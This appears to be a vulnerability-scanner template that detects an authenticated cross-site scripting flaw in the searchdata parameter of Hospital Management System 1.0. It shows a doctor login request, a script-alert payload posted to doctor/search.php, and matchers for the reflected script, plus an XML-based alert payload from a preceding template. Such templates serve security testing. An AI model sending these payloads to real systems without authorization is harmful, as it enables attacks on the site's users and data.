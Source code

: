 **Type - word**

- words
  1. \<?xml version="1.0"?>\<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(document.domain)\</x:script>

**Type - word**

- words
  1. /xml
  2. /html

---

# Hospital Management System 1.0 - Cross-Site Scripting

## Description

- Hospital Management System 1.0 contains a cross-site scripting vulnerability via the searchdata parameter in doctor/search.php.

- severity - high
- tags - hms,hospital,cms,xss,authenticated

## Requests

### Step - 1

```
POST /hms/doctor/ HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username={{username}}password={{password}}&submit=

```

### Step - 2

```
POST /hms/doctor/search.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

searchdata=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&search=

```

### Matchers

**Type - dsl**

- dsl
  1. contains(all_headers_2, "text/html")
  2. status_code_2 == 200
  3. contains(body_2, 'Result against \"\<script>alert(document.domain)\</script>\" keyword')
- condition - and

---